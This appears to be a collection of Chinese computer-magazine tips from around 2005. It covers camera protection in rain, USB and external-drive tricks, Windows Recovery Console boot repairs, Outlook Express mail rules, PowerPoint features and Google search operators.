外出拍照，最怕的就是遇到雨天。在这种环境下别说拍照有难度，就是想要保护相机不被雨淋也是很麻烦的。因为我们一般用的相机包防水性能都不好，所以长时间淋雨肯定会让水渗透到相机上。要解决这个其实很简单，就是准备几个比较结实的塑料袋子（太单薄的容易被划破），然后将相机用塑料袋子包好。推荐那种带压条的塑料袋，把相机放进去后一捏压条就可以密封了。

带压条的塑料袋密封效果好，而且操作简单

### 能量充足持久战

前面已经提到了怎么省电。可以光是节流不开源，也不了多久啊。所以我们外出时还要多想几个开源的方法才行。

- **汽车充电器**: 这种小玩意儿价格便宜，用处却很大。不但可以在行车途中为 DC 电池充电，还可以为手机、PDA 等各种数码设备充电。大家可以在附近的电脑城找找看，价格一般在几十元到上百元不等，根据功能和质量有所差别。
- **便携电池包和备用电源**: 市面上出售的各种电池包可以提供 DC 内置电池两到三倍的电力。只要带上两个这样的电池包，就是连续拍上半天也不成问题。不过这要求我们的 DC 可以使用外接电源，并且电池包和 DC 的型号匹配。

### 转存空间要备足

旅游的时候，存储卡存满了恐怕是最无奈的事情，塞得满满的存储卡让我们无法尽兴。要么选择放弃眼前美景，要么选择删除先前的记忆……最将就的办法只能是把照片质量设定低一些，这样虽然牺牲了单幅的质量，但是保证了整体的数量。不过要是能在出门之前备上一个数码伴侣或是多配备一张存储卡的话，肯定会让我们的旅行更愉快。不过在选购数码伴侣的时候，同样要仔细比较它的工作时间，因为数码伴侣也涉及到耗电的问题。

## 原来USB还可以这样玩

相信大家对USB都不会陌生，它是电脑的一个接口，可以说现在很多设备都采用的是USB接口。USB是英文Universal Serial Bus的缩写，中文含义是“通用串行总线”，它是一种应用在PC领域的新型接口技术。到今年，USB正好有10年的历史。早在1995年，一些高端的电脑就有配备USB接口，但由于缺乏软件及硬件设备的支持，这些PC机的USB接口都闲置未用。到了1998年，微软的Windows 98开始对USB接口支持，而且从那年开始，USB的设备也越来越多，这时候，USB设备才逐渐为大家所熟悉。而最近几年，USB逐步成为PC机的标准接口，几乎所有的电脑都支持这个接口。就是我们熟悉的一个接口，还有很多使用上的技巧，在本文中给大家一一进行介绍。

### 让你的系统支持USB

虽然现在USB接口已经成为电脑的一种标准，但是还有一部分电脑因为种种原因无法使用USB。其原因无非有两种，一种是软件不支持，另外一种是主板上没有USB接口。前者的解决方法很简单，只需将自己的操作系统升级到Windows 98以上就可以支持USB。要是主板上没有USB接口，那么就需要一些外接转换器。通常有并口转换USB和PS/2口转换USB，两者的价格都差不了多少，主要是根据自己的实际情况来进行选择。将转换器插入相对应的接口，就可以在老机器上使用USB设备。

### 给你更多的USB接口

现在的主板中都有4个以上的USB接口，但是在实际应用中往往觉得不够用。不过没有关系，可以利用一些外设来增加USB接口的数量；通常情况下有USB扩展卡和USB HUB这两种外设可供选择。USB扩展卡一般是PCI接口，其主要参数有接口数量和接口传输速率。在接口数量上分两口和五口，推荐选择后者。接口速度分为USB1.1和USB2.0两种规格；如果没有其他特殊的需要，一定要选择USB 2.0扩展卡。而USB HUB和USB扩展卡一样，也分USB 1.1和USB 2.0两种，一般情况都选择USB 2.0。USB HUB的供电方式有两种，一种外接电源，每个接口都可获得5V/500mA供电。另一种直接由USB接口供电，所有接口共享5V/500mA供电，虽然携带方便，然而一旦连接设备耗电总和大于500mA，很容易导致供电不足，所以这里建议大家购买带外接电源的USB HUB。

### 在DOS下使用USB设备

通常情况下我们都是在Windows下使用USB设备，那么在DOS下可以使用USB设备吗？答案是肯定的，而且操作方法很简单。首先我们需要一张系统启动盘，然后到网上去下载Mhairudos、Kxlrw40an两个文件。将Mhairudos.zip解压，从中提取Di1000dd.sys文件备用；Kxlrw40an.exe是自解压文件，运行后会生成F2H目录，将该目录下的RAMFD.SYS、USBCD.SYS和Usbaspi.sys文件连同刚才得到的Di1000dd.sys文件一起复制到启动盘的根目录下。在启动盘中找到Config.sys文件，用“记事本”将其打开，在[CD]小节的任意位置加入以下两行代码：

```
device=a:\usbaspi.sys
device=a:\di1000dd.sys
```

然后用这张启动盘启动电脑，就会自动扫描主板的USB端口，如果找到端口上的USB设备，则为其分配一个ID识别号码(即盘符)，循环往复直到所有的USB设备侦测完毕。这样就可以在DOS下使用USB设备了，是不是很简单？

### 我的USB设备你别用

USB设备虽然给我们带来很多方便，但无形中也很容易泄露自己电脑中的秘密。那么需要找一种方法将自己电脑中USB的设备进行屏蔽，这样就可以保证自己电脑的安全。首先要求电脑的操作系统是Windows XP，而且要采用NTFS文件系统。

其实利用Windows系统的访问控制列表(ACL)指定用户访问权限就能做到。如果要禁用“abc”组的用户使用USB设备，在Windows资源管理器中，进入到“系统盘:\WINDOWS\inf”目录，找到名为“Usbstor.pnf”的文件，右键点击该文件，在弹出菜单中选择“属性”，然后切换到“安全”标签页，在“组或用户名称”框中选中“abc”，接着在“abc的权限”框中，选中“完全控制”后面的“拒绝”复选框，最后点击“确定”按钮。然后再找到“usbstor.inf”文件，并在安全标签页中设置为拒绝“abc”组的用户访问，操作方法和上面一样。当完成了以上设置后，abc组中的用户就无法安装USB设备驱动程序。

要是电脑中已经安装完USB驱动，那么上面的方法就不管用。不过可以通过修改注册表来实现禁用USB设备。进入注册表编辑器，打开“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\USBSTOR”，找到“Start”键，双击打开，将其值修改为“4”。修改完注册表之后，重启电脑，这样就将计算机中所有的USB设备进行屏蔽。

### USB打印接口任意拔

USB设备支持热插拔，但并不表示可以随便插拔。USB设备在运行的时候不可随便进行插拔，否则会出现系统错误。如果USB接口的打印机在工作的时候，进行插拔，那么打印机可能不能正常工作，或者电脑USB端口发生损坏。通常情况下，正确地拔出打印机USB端口的方法是：先双击系统托盘区域中的“拔下或弹出硬件”图标。在随后的窗口中，将USB打印机选中，并点击“停止”，当屏幕提示现在可以安全拔除时，才能将打印机USB口从计算机中拔出来。但这样比较麻烦，笔者有一个方法可以简化这个过程。右击桌面上的“我的电脑”图标，从弹出的右键菜单中，单击“属性”选项，在随后出现的窗口中，选中“硬件”标签，并点击该标签页面中的“设备管理器”按钮。在打开的设备管理器窗口中，用鼠标双击USB打印机图标，在接着打开的打印机属性设置窗口中，将“策略”设置项处的“为快速删除而优化”选中。然后单击“确定”按钮。最后重启电脑，就能对打印机的USB端口随意插拔。

### 使用USB延长线保护闪存盘

现在的U盘质量不是很好，如果直接插拔的次数很多的话，很容易损坏。为了避免这种情况发生，可以使用一下USB延长线来连接U盘，这样既能保护U盘上的USB端口不被损坏，又能保护主板上的USB接口。不过要注意一点的是，必须确保其USB延长线与U盘标准相同，以确保数据传输速度的匹配。

## 有故障，找“故障恢复控制台”

“故障恢复控制台”对于大多数用户来说都是一个神秘的地方，这个类似于DOS界面的系统组件究竟有什么作用？Windows 2000和Windows XP中都能找到它，微软是不会容许一个“鸡肋”长期存在的，那么如何用好这个神秘的“故障恢复控制台”呢？

### 解决无损分区后的启动文件丢失

硬盘分区的大小一直是个让很多人头痛的问题，特别是系统分区C:，分得太小很快就不够用了，分得太大又感觉很浪费(特别是在某个分区被下载的电影文件挤满后，这种感觉越发强烈……)。既不想丢失数据又需要调整分区大小，那就只能使用PQmagic这类无损分区转换工具了。说是“无损转换”，可是有一部分用户在使用这类软件对系统分区大小进行调整后，系统(Windows 2000/XP)就出现了无法启动的症状，在启动时提示“NTLDR is missing, Press any key to restart”(NTLDR文件丢失，按任意键重新启动)，这是由于在无损的分区大小调整过程中，意外造成了Windows的启动文件丢失或缺损。进入“故障恢复控制台”(如果没有安装，也可使用Windows 2000/XP安装光盘启动它)，将原系统安装光盘放入光驱，使用“copy d:\i386\ntldr c:\”命令将光盘上的启动文件恢复到系统分区C:的根目录中(假设光驱盘符为D:)；提示是否覆盖按Y回车。使用exit命令退出“故障恢复控制台”后重启即可解决问题。

```
copy d:\i386\ntldr c:\
```

同样地，用此方法还可以解决将FAT32分区转换为NTFS后无法启动的问题，如果在系统分区的转换过程中出现了错误或意外重启，则启动后就可能出现“Missing or Corrupt Ntfs.sys”(Ntfs.sys文件丢失或损坏)，在“故障恢复控制台”中进入C:\Windows\system32\drivers目录，用ren命令将ntfs.sys命名为其他名称(如ren ntfs.sys ntfs.bak)，用“copy d:\i386\ntfs.sys c:\windows\system32\drivers”命令将安装光盘中的文件恢复到系统目录中，重启即可。

### Boot.ini 也被删除掉了

双系统安装很容易，由低到高的顺序即可，但维护却不简单，一个不小心就可能让两个系统同时玩完。比如在C:安装了Windows 2000，D:安装了Windows XP，想把Windows 2000删除掉，就格式化了C:，可是却发现两个系统都进不去了……进入“故障恢复控制台”，运行“bootcfg /scan”命令扫描所有硬盘分区，扫描出D:上安装的Windows XP后，就会提示找到“[1]:D:\Windows”，再用下面的命令重建boot.ini：

```
bootcfg /redirect d:\windows
bootcfg /disableredirect
```

因为C:被格式化，所以还需用上文中的方法恢复NTLDR启动文件，并用相同的方法将NTDETECT.com文件也恢复到C:根目录中，然后运行“fixboot C:”命令将系统分区重新写入引导扇区。

### 让“故障恢复控制台”来去自如

可能有人会问，究竟什么时候用“故障恢复控制台”最合适？答案是“安全模式”和“带命令行的安全模式”都无法进入时。进入“故障恢复控制台”共有两种方法，一种是事先安装，然后通过启动菜单进入，而另一种则是直接使用系统安装光盘进入。

安装“故障恢复控制台”：将Windows 2000/XP系统安装光盘放入光驱中，单击“开始→运行”，在运行框中键入“d:\i386\winnt32.exe /cmdcons”(假设光驱盘符为D:)，在出现的安装对话框中确认，重启后在启动菜单中就出现了“Microsoft Windows 故障恢复控制台”的选项。

```
d:\i386\winnt32.exe /cmdcons
```

在出现的安装对话框中确认，重启后在启动菜单中就出现了“Microsoft Windows 故障恢复控制台”的选项。

通过光盘进入“故障恢复控制台”：用Windows 2000/XP系统安装光盘启动计算机，在出现欢迎屏幕时按R键启动“故障恢复控制台”，如果安装了多系统，则需要选择要恢复的系统，然后根据提示输入管理员密码以便登录。

### 小提示

“故障恢复控制台”使用自带的命令解释程序，所以其支持的命令是有限的，可以在其命令提示符下键入“recovery console commands”或“help”，即可获得其支持的命令列表。

如果你以前曾经安装过“故障恢复控制台”，那么在启动菜单中就始终会有它的选项，每次启动都必须选择实在有些麻烦，能不能卸载它呢？

首先打开“资源管理器”，进入“故障恢复控制台”所在分区（一般为C:），选择菜单“工具→文件夹选项”，在弹出窗口中选择“查看”选项卡，选中“显示所有文件和文件夹”，去除“隐藏受保护的操作系统文件”的勾选，点击“确定”（此处为Windows XP中的操作，在Windows 2000中略有不同）。然后在根目录中，删除Cmdcons目录和Cmldr文件。右击Boot.ini文件，选择“属性”并去除“只读”，接着用“记事本”打开此文件，将其中类似于“C:\cmdcons\bootsect.dat="Microsoft Windows Recovery Console" /cmdcons”的项删除，保存并关闭文件，恢复其“只读”属性。

### 把不用的Linux从硬盘中彻底清除

电脑DIYer们经常会尝试新的操作系统，除了Windows之外，Linux、FreeBSD，甚至Mac OS，可是当新鲜感逐渐淡化后，这些另类的系统就成了硬盘中的累赘，现在就教你如何用“故障恢复控制台”来卸载掉这些系统（以Linux为例）。进入“故障恢复控制台”后，运行diskpart命令，选择Linux所在的分区（一般由系统区、扩展区和交换区组成）按D键删除，然后选择在未划分空间中按C建立新的分区即可（别忘了用format命令格式化一下）。任务还没完成，如果此时重启你会发现启动界面仍然是LILO或者GRUB，所以还需运行一下fixmbr命令以恢复Windows的引导控制权。

### 带领“故障恢复控制台”冲破限制

根据微软的默认设置，“故障恢复控制台”只能访问几个有限的目录：系统根目录、Windows安装目录、CMDCONS等。如果试图访问别的目录就会提示“访问遭到拒绝”，系统出了故障之后想通过“故障恢复控制台”把硬盘中的重要文件导出到软盘上，却发现这也是禁止的，其实只要使用Set命令修改相关的环境变量即可冲破这些限制。

执行Set命令不加任何参数可以显示当前的变量值，默认情况下这几个值都是“False”（否）：AllowWildCards（允许使用通配符）、AllowAllPaths（允许进入所有文件目录）、AllowRemoveableMedia（允许将文件复制到可移动媒体上，如软盘）、NoCopyPrompt（覆盖已经存在的文件时无需确认）。

这个设置必须在系统尚可启动时进行，点击“开始→运行”，在运行框中输入gpedit.msc打开“组策略编辑器”（Windows XP Home版没有此工具），依次展开“本地计算机策略→计算机配置→Windows设置→安全设置→本地策略→安全选项”，在右侧窗格中，双击“故障恢复控制台：允许软盘复制并访问所有的驱动器和文件夹策略”，选择“启用”并确定。一旦今后系统出现故障，那么进入“故障恢复控制台”后用Set命令将上文中提到的四个变量设置为True即可，下面是例子（注意等号“=”两旁必须留出空格，否则会提示参数无效）：

```
set allowallpaths = true
```

完成后，使用cd命令就能进入任意目录了。

## 玩转“邮件规则” OE更聪明

Outlook Express（以下简称OE）是从5.0版才附带“邮件规则”功能，它主要利用特定邮件的一些规律特性，归纳出一套法则，来对特定邮件进行自动处理，合理地使用“邮件规则”不仅可以使你的OE变得聪明无比，更会大大提高你的办公效率。

### 认识“邮件规则”处理方式

打开OE以后，选择“工具→邮件规则→邮件→邮件规则→新建”即可打开邮件规则设置窗口。它主要分为四个部分：①选择规则条件；②选择规则操作；③规则描述；④规则名称。

如果某一电子邮件符合①的条件，就执行②的动作。其中①可以是：发件人包含特定人员、主题中包含特定文字、邮件正文中包含特定文字、邮件超过某特定大小等条件；②可以是：移至特定的文件夹、删除、转寄给特定人员、不要从服务器下载等操作；③就是详细编辑①中的条件和②中的动作；④是给当前的邮件规则起名字。

### 指定邮件到特定文件夹

实现效果：我订阅的硬件报价的邮件列表总是和其他邮件掺和在一起，利用邮件规则就可以自动把它移动到事先建立好的“硬件报价”文件夹中。

-   第一步：首先右击“收件箱”，选择“新建文件夹”，命名为“硬件报价”。

-   第二步：选择“工具→邮件规则→邮件→邮件规则→新建”新建一个“邮件规则”，在“选择规则条件”中勾选“若‘主题’行中包含特定的词”，在选择操作中选中“移动到指定的文件夹”，在“规则描述”中单击“包含特定的词”这一超级链接，在“键入特定文字”对话框中输入“硬件报价”，点“添加→确定”；点击蓝色字“指定的”，选择事先建立好的“硬件报价”文件夹；在“规则名称”里会自动加上诸如“新建邮件规则 #1”之类的名称（你可以更改其名称），单击“确定”后回到“邮件规则”对话框。

-   第三步：如果想马上看到效果，可点击“立即应用”，这样就能看到硬件报价的邮件被移动到“硬件报价”文件夹中了。

采用同样方法可以让OE把所有邮件分别自动存放到不同文件夹中。还可以利用本方法将垃圾邮件自动放到“已删除邮件”文件夹，也可选择不下载或直接从服务器删除。

### 像Foxmail那样按邮箱自动分类收到的邮件

实现效果：我有多个信箱，但OE把它们都放在“收件箱”里，而不像Foxmail那样可以分信箱存放，所以我要通过“邮件规则”让邮件自动进入各自的收件箱。

这一技巧的操作方法与上例的过程相似，首先创建对应各个邮件的文件夹，比如：Yeah、163、Cfan等，然后新建一个“邮件规则”，在“选择规则条件”中勾选“若邮件来自指定账户”；在“选择规则操作”中勾选“移动到指定的文件夹”；在“规则描述”中单击“若邮件来自指定账户”中的“指定的”，选择相应邮箱的POP3账号后“确定”，再点击“移动到指定的文件夹”中的“指定的”，选择事先建立好的文件夹。最后命名此邮件规则，就可以应用了。

重复以上操作，为每个邮箱设置“邮件规则”，这样你的信件就可以在接收后自动分信箱保存了。

### 没有发件人或收件人的邮件别烦我

实战效果：相信你一定收过一种发件人、收件人字段都是空白的邮件，这是广告信最常用的伎俩。利用邮件规则，让它们别来烦我。只要是电子邮件地址，中间一定会有一个@符号。所以，我们可以利用这一特性来过滤没有发件人、收件人的信。

-   第一步：在“选择规则条件”中勾选“若‘发件人’行中包含用户”、“若‘收件人’行中包含用户”。

-   第二步：在“规则描述”项中，点击“若‘发件人’行中包含用户”，在打开的窗口最上面的文本框中输入@，并按“添加”按钮，接着点击“选项”，选择“邮件不包含下列用户”。如此一来规则条件就设置成了“若发件人行中没有包含‘@’”。同样方法设置“若‘收件人’行中包含用户”项。

-   第三步：在“规则描述”项中的“和”上点一下，选择“邮件符合所有条件”，并按“确定”。

-   第四步：在“选择规则操作”项中勾选“从服务器上删除”。设定好这个规则后，那些没有收件人或发件人的垃圾信会被OE自动从服务器上删除。

### 拦截收件人不是“你”的邮件

实战效果：很多广告信都有一个特征，就是收件人处出现的地址都不是你的电子邮件地址，可能是空白的，也可能是电脑随机产生的虚假地址等，总之就不是你的地址。对于它们，我们完全可以将其从服务器中删除掉。

新建一个邮件规则，规则条件选择“若‘收件人’或‘抄送’行中包含用户”；规则操作项中选择“从服务器删除”；在规则描述项，按“包含用户”，接着在弹出窗口中输入你的电子邮件地址，按“添加”按钮；接着点击“选项”，选择“邮件不包含下列用户”。如此一来，就可以将收件人不是你的邮件拒之门外了。

如果有好几个电子邮件地址，请逐一输入，为避免所订阅的邮件列表也被删除，所以还要将它们的地址也输进去。

### OE也能自动回复邮件

实战效果：邮件服务器收到朋友的邮件后，就会自动回复消息给对方，如：“我现在不在家，等我回来再回复……”之类。

特别提醒：不要对已经设置了自动回复的邮箱使用这种功能，这样会陷入无限循环的痛苦之中。当然更不能给自己发信，那样无异于“炸掉”自己的邮箱！

-   第一步：打开记事本，输入想要回复的文字，比如：“我收到您的来信了，很快会回复您！”，将其储存成.txt文件格式。

-   第二步：启动OE，打开“新建邮件规则”对话框。规则条件选择“若邮件来自指定的账户”；规则操作选择“使用邮件答复”，在规则描述中按“指定的”，指定要套用这个规则的邮件账号，然后按“邮件”指定要附加的文本文件，就是第一步中制作的那个文本文件，最后为规则名称取一个好记的名字，“确定”后返回。

-   第三步：以后只要寄到你指定账号的邮件，都会自动发给对方你事先设置好的那份文本文件的内容。

不过还有几点需要注意，首先必须设置每隔多少分钟检查新邮件，否则OE不能自动接收邮件，当然也不能自动传送邮件出去。到“工具→选项→常规”，检查是否勾选了“每隔多少分钟检查一次新邮件”项；最重要的就是记得不能结束OE与Internet联机，这样才能随时传送和接收。

## 6招玩转移动硬盘

移动硬盘现在成了很多上班族必备的工作伙伴，容量大，方便携带，不管是工作的文件还是下载的视频游戏都可以轻松保存，而且速度超快。在移动硬盘的使用过程中有不少很实用的小技巧，如果掌握它们将给你带来意想不到的方便，还可以帮你解决很多小问题，下面就分享给大家。

### 让讨厌对话框走开

默认情况下，一旦将移动硬盘插入，Windows XP的自动播放功能就读取驱动器，同时显示一个对话框，要求你选择是否打开其中的视频、音频、图片文件。有时，这项自动功能可能会给你带来不少的麻烦，要关掉它也不是那么难。打开“开始菜单→运行”对话框，输入gpedit.msc，回车后打开“组策略”窗口。定位到“本地计算机策略→计算机配置→管理模板→系统”，然后在右窗格的“设置”标题下，双击“关闭自动播放”项，单击“设置”选项卡，选中“已启用”单选按钮，然后在“关闭自动播放”框中单击“所有驱动器”，单击“确定”按钮，最后关闭“组策略”窗口。

### 提高移动硬盘的速度和稳定性

虽然Windows XP中自带USB2.0驱动，但是在实际使用中却与某些主板存在兼容性问题，其故障表现为从USB2.0设备上拷贝大容量文件时报错，并且移动盘符消失。解决的方法是首先安装微软的SP补丁，然后再安装芯片组最新驱动程序（如VIA 4合一、nForce2或SiS最新驱动等），最后再下载并安装厂家最新版的USB2.0驱动程序，驱动程序安装完毕后，为了发挥USB2.0接口的优势，可以在“设备管理器”中找到移动硬盘，右键点击“属性”→“策略”，把“快速删除优化”改为“为优化性能优化”，这样可以明显提高数据拷贝速度。

### 避免移动硬盘供电不足问题

首先在使用移动硬盘等大功率的USB设备时，由于每个USB端口最多只能提供500mA的电流，所以最好是把移动硬盘直接接到主板的USB接口上，而不要将其连接在机箱的前置USB接口上，以免造成供电不足。其次是不要使用USB延长线来连接USB移动硬盘，最好使用厂家随移动硬盘附送的USB延长线。因为普通USB延长线一般线体较细，使用时容易造成电流损耗，而原厂USB电源通常做工较好，线体也较粗，可以最大程度地减少电流损耗。另外目前的主板上的USB接口后面一般都有一个JP3跳线，可以用来改变USB接口的供电方法，可以改变跳线的设置，将USB电源由副电源的5V SB改为主电源5V供电后，可以得到更加稳定的电源（详细方法可以参考主板说明书）。如果以上方法都无法解决问题，那就只有改变移动硬盘的取电方式了，一般的USB移动硬盘都提供了PS/2或者增补USB取电接口，将它接到主板的PS/2或者USB接口上，可以得到比较稳定的电流。另外我们也可以购买一个带有外接电源的USB HUB，可利用它为USB移动硬盘供电也是个比较不错的方法。

### 在Win98中使用移动硬盘

大家知道，在Win2000以上版本的操作系统中使用移动硬盘时，是不需要安装驱动程序的；可是在Win98工作站中，就需要安装移动硬盘的驱动程序了。不过要是你的计算机中恰好没有光驱或软驱的话，那么安装移动硬盘的驱动程序就不那么容易了。其实，你可以在其他有软驱的Win98工作站中，先制作好Win98启动盘，然后再将移动硬盘连接到安装有Win2000系统的工作站中，并将Win98启动盘中的内容全部复制到移动硬盘中；接下来，再用Winzip之类的压缩工具，将移动硬盘的驱动程序打包成一个可执行程序，比方说usb.exe，并将该可执行文件复制到移动硬盘中。以后，将移动硬盘插入到Win98工作站的USB端口中，并通过移动硬盘的系统引导功能，将Win98系统先启动到DOS环境中，然后在命令行状态下，利用“COPY”命令将移动硬盘的驱动程序“usb.exe”文件复制到Win98工作站的硬盘中。下面，再次以正常方式启动Win98工作站，然后在Windows界面下，对“usb.exe”文件进行自动解压，就可以得到移动硬盘的驱动程序了。以后你就能按常规方法，完成移动硬盘驱动程序的安装操作了。当然，这种方法仅限于支持系统引导功能的移动硬盘，对于其他普通的移动硬盘，可能无效！

### 用移动硬盘启动系统

### 第一步：往移动硬盘写入系统启动文件

找一台安装有Windows 98 SE的机器，启动后进入系统，把移动硬盘插到机器上，启动资源管理器，选择移动硬盘中的一个分区，由于要启动的是DOS，所以这个分区最好是FAT32格式。在这个分区上单击鼠标右键，从弹出的右键菜单中选择“格式化”命令，弹出“格式化”对话框。由于移动硬盘上存有许多资料，不希望被破坏掉，所以在“格式化类型”中选择“仅复制系统文件”，单击“开始”按钮，就开始往移动硬盘上复制系统文件了。

### 第二步：将移动硬盘的启动分区设为活动分区

由于计算机启动时，需要启动移动硬盘的活动分区中的操作系统，没有活动分区，计算机就不知道去什么地方找操作系统。这次我们要用Windows XP了（也可以在Windows 2000或者Windows 2003中设置，方法雷同），启动Windows XP，把移动硬盘插到机器上。打开资源管理器，单击“控制面板→管理工具”，双击“计算机管理”。在打开的“计算机管理”窗口中选择“计算机管理（本地）→存储→磁盘管理”，在写入了系统启动文件的移动硬盘分区上单击鼠标右键，从弹出的右键菜单中单击“将磁盘分区标为活动的”。

### 第三步：设置USB设备启动方式

重新启动计算机，启动时进入BIOS，选择以USB HDD（移动硬盘）启动计算机即可。

### 处置和避免移动硬盘的异常现象

倘若由于插拔时机不当，造成移动硬盘突然“失常”的话，你不妨找到设备管理器中的“未知USB设备”，将其删除之后，再将移动硬盘从计算机中拔下来。有时候双击移动硬盘图标时，移动硬盘竟然没有任何反应，甚至还能导致系统出现死机现象，这是为什么呢？其实，这是由于操作者没有掌握正确的访问时机；比方说，在将移动硬盘刚刚插入到计算机后，你就要开始访问移动硬盘的话，系统根本就不会反应过来，或者根本无法及时响应你的请求，表现出来的现象自然就是死机或不响应了。正确访问移动硬盘的方法，就是等移动硬盘信号灯不再闪烁时，开始双击图标进行访问。此外，移动硬盘在传输数据的过程中，也不能不停地双击图标，这样也比较容易造成死机现象。

### 做个出色的演讲师

看着别人制作出的漂亮PPT，看着别人在演讲台上滔滔不绝，你有何想法？来，让我们一起做个出色的演讲师。

注:①建议你在学习下面的技巧前先读一读《制作PPT的7个要点》(下载地址:http://www.newhua.com/cfan/200521/zPPT.rar); ②本文所指PowerPoint均为2003版。

### 多来“几片后悔药”

PowerPoint可以撤销以前的操作，不过默认时仅仅允许撤销20步操作，如果觉得不够，可以点击“工具→选项”菜单项，点击“编辑”标签，修改“最多可取消操作数”为指定数值即可。

### 同时使用多个母板

如果想让幻灯的每一页都出现相同的内容，就要使用母板功能，比如要在每页同一位置显示的公司LOGO等。但如果要使用多个母板应该如何实现呢？先选择“格式→幻灯片设计”，这时在窗口右侧就会出现可供选择的模板，选中需要作为母板的模板，在编辑窗格中对所选的模板进行编辑。完成后，在窗口左侧选择需要使用此模板的幻灯片（可以用Shift或Ctrl键多选），重新右击刚刚修改过的模板文件，选择“应用于选定幻灯片”即可。小提示：如果没有“应用于选定幻灯片”项，则请确认“工具→选项”菜单项中“编辑”标签下的“多个母版”项未被勾选。

### 快速使用白（黑）板

在播放幻灯时，只要按W键或B键就会显示白屏或黑屏，可作为白（黑）板使用，进行画图等临时需要。

### 我的幻灯只能看不能改

如果你希望别人只能播放你的幻灯，但不想让他们修改，那可以选择菜单中的“文件→另存为”，在弹出窗口右上角选择“工具→安全选项”。在“修改权限密码”中输入密码。最后，将文件保存为“PowerPoint放映(*.pps)”文件，这样不必输入密码就可以直接播放了。

### 在PowerPoint中抠图

有时，在插入图片后，想把白色背景去除，可以将图片插入PowerPoint中后，选择图片，确认图片工具栏已经显示(如没有，右击图片，选择“显示‘图片’工具栏”)，点击“设置透明色”按钮，单击图片中的白色背景即可。

### 我的PPT“想唱就唱”

在制作PPT时，有时我们会用到背景音乐，那么如何添加呢？以添加MP3为例，打开要添加背景音乐的幻灯，通过“插入→影片和声音→文件中的声音”菜单项选择要播放的MP3文件，在询问何时播放声音窗口中点击“自动”。现在，编辑窗口中已经出现喇叭图标，右击该图标，选择“自定义动画”项，在弹出的“自定义动画”窗格中右击MP3文件，选择“效果选项”，在弹出窗口中将“停止播放”项下的“在[ ]张幻灯片后”设置尽量大的数字（要超过当前幻灯的总张数），在“计时”标签下勾选“播放后快退”，在“声音设置”下勾选“幻灯片放映时隐藏声音图标”项。小提示：只有WAV格式文件才能自动嵌入到PPT文件中。如果是MP3等格式，则需将PPT文件与音频文件放在同一目录中，再进行插入操作。复制到其他电脑上播放时，也要将音频文件一起复制。
另外，还要说明，如果插入的是WAV文件，在播放时，可能会出现“没有足够的可用内存播放此文件”，这多是因为虚拟内存不足所致，可以通过增加虚拟内存来解决问题。右击“我的电脑”后，在“高级”标签下的“用户配置文件”中进行修改即可。除此之外，还有一种方法，是将WAV文件关联到其他播放器上，而不使用默认的“录音机”进行播放。

### 轻松编辑 PPS 文件

如果别人传给你的幻灯文件是PPS格式，当你想编辑它时，可以直接修改其扩展名为PPT，这时再打开就可以用PowerPoint对其进行编辑了。

### 在 PPT 中同步显示具体时间

PowerPoint提供了显示当前日期及时间的功能，使用方法很简单：在编辑幻灯片时将光标定位至要插入时间的位置，点击菜单中的“插入→日期和时间”，在“可用格式”中选择好格式，同时勾选“自动更新”即可。

### 在 Word 及 PowerPoint 中互转

在日常工作中，有时会需要将 Word 文档转换为幻灯片，这时在 Word 中选择“文件→发送→Microsoft Office PowerPoint”菜单项即可。同理，如果要将幻灯片转为 Word 文档，可以在 PowerPoint 中选择“文件→发送→Microsoft Office Word”菜单项。

### 做个出色的讲演师

我们在做PPT演示时，经常是用笔记本电脑连接好投影机，将投影机设置副显示器，然后在 PowerPoint 中选择“幻灯片放映→设置放映方式”，勾选“显示演示者视图”，同时在“幻灯片放映显示于”设置为“监视器 2 默认监视器”，再按播放即可。这样，你在“备注”中添加的内容都可以在主显示器上显示出来，而投影机上出现的只是幻灯片。

你知道吗？ PowerPoint最初由Bob Gaskins开发，那时他还是伯克利大学的Ph.D(博士)学生。他想设计一种更容易展示和操作多张幻灯片的程序。在1984年，Gaskins加入到一个叫Forethought的硅谷软件公司，和另一位叫做Dennis Austin的软件开发人员，开发了一款名为Presenter的程序。但为了避免一个商标问题，就改名成了PowerPoint了。PowerPoint 1.0于1987年在苹果机上发布。运行在黑白单色模式下，能从彩印机上产生图形和文字混合的页面。
1987年晚期，Forethought和PowerPoint被微软以1400万美元收购。很快，1998年，第一个运行在Windows及DOS平台的PowerPoint版本就被开发出来了。从1990年开始，PowerPoint已经成为微软Office办公系列软件中的一个标准组成部分了。

## Google 搜索技巧 2005

近来有一篇名为Google Search Tips 2005(Google搜索技巧2005)的文章在Blog中非常流行，它涉及不少 Google 中鲜为人知的隐含技巧，能让我们更好、更精确地查找到自己想要的资料。原文作者为 Philipp Lenssen，我们对该文作了一些适当编译，以便与广大的电脑爱好者共享。为了表达得清楚明了，下文用中括号“[]”将所有搜索关键词括了起来，大家在操作的时候，不要输入这对中括号。

- ◆ 与汉语不同，构成英语短语的各个单词之间都会以空格进行分隔，如果想以某一英语短语作为关键词进行搜索，就必须使用双引号将短语括起来，如["like this"](不含外面的中括号，下文皆同)，否则 Google 会把它处理成两个相对独立的关键词。除此之外，也可以使用连字符“-”来代替双引号，比如上面例子，可以表示成[like-this]，效果和使用双引号一样。这一技巧尤其适合以英语文章名称为关键词进行的搜索，如[Google -Search-Tips]。
- ◆ 以前，Google 不能处理像“#”这样的一些特殊符号，但现在可以做到了，比如搜索[C#]，它就会搜出与微软 C# 编程语言相关的许多网页资料来。不过还是有一些字符它不能识别，比如搜索[t.]、[t-]、[t+]等，得到的结果是一样的。
- ◆ 使用多个关键词进行搜索，会使得到的结果更精确。Google 支持在每次的搜索中最多使用32个关键词(关键词以空格分开)，如果超过这个数字，Google 会自动忽略掉后面的关键词。不过这一般来说已经足够了，我们很少会在一次的查询中使用那么多的关键词。
- ◆ 在单词前加上波浪号“~”就可以搜索同义词。举例来说，当搜索“house”的同时也想查找“home”等其他同义词，就可以搜索[~house]。如果想排除掉个别同义词，可以使用减号来实现，比如:[~house -house -home -housing -floor]。这一技巧目前仅适用于英文。
- ◆ 搜索[* *]，可以得到 Google 索引页面的总数。
- ◆ 使用 Google 搜索，经常会得到成千上万的结果，我们可以指定数字来限制搜索范围，比如要搜索 2000 至 2005 年之间的某些材料，可以在关键词之后加上[2000..2005](数字之间是两个小数点)，将得到包含有 2000、2001、2002...2005 这些数字的网页，大大缩小搜索的范围。比如搜索[电脑爱好者 2003..2005]要比纯粹地搜索[电脑爱好者]过滤掉近一半的网页数。
